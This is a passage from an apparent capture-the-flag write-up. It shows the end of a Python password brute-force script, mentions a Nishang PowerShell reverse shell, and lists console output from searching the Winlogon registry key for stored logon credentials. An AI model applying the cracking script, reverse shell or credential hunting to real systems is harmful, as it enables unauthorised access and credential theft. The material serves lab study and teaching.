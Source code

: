 ```
            sys.stdout.write("\n[+] Found password: {} \n".format(password))
            pool.terminate()
            sys.exit(0)
        else:
            i += 1
            print_status(i, len(words))

    print("\n\nPassword not found\n")

def print_status(i, l, max=30):
    sys.stdout.write("\r|{}>{}|  {:>15}/{}".format( "=" * ((i*max)//l), " " * (max - ((i*max)//l)), i, l))

if __name__ == '__main__':
    if len(sys.argv) != 2:
        usage()
    main(sys.argv[1])

```

### Issues with Shells and Getting WinLogon Creds

Originally, I got on with my standard Nishang `Invoke-PowerShellTcp.ps1` shell, and when I checked for winlogon creds, there were none there:

```

PS HKLM:\software\microsoft\windows nt\currentversion\winlogon> whoami
nt authority\iusr
PS HKLM:\software\microsoft\windows nt\currentversion\winlogon> get-itemproperty .

DefaultDomainName       :
DefaultUserName         :
EnableSIHostIntegration : 1
PreCreateKnownFolders   : {A520A1A4-1780-4FF6-BD18-167343C5AF16}
Shell                   : explorer.exe
ShellCritical           : 0
SiHostCritical          : 0
SiHostReadyTimeOut      : 0
SiHostRestartCountLimit : 0
SiHostRestartTimeGap    : 0
PSPath                  : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHIN
                          E\software\microsoft\windows
                          nt\currentversion\winlogon
PSParentPath            : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHIN
                          E\software\microsoft\windows nt\currentversion
PSChildName             : winlogon
PSDrive                 : HKLM
PSProvider              : Microsoft.PowerShell.Core\Registry

```
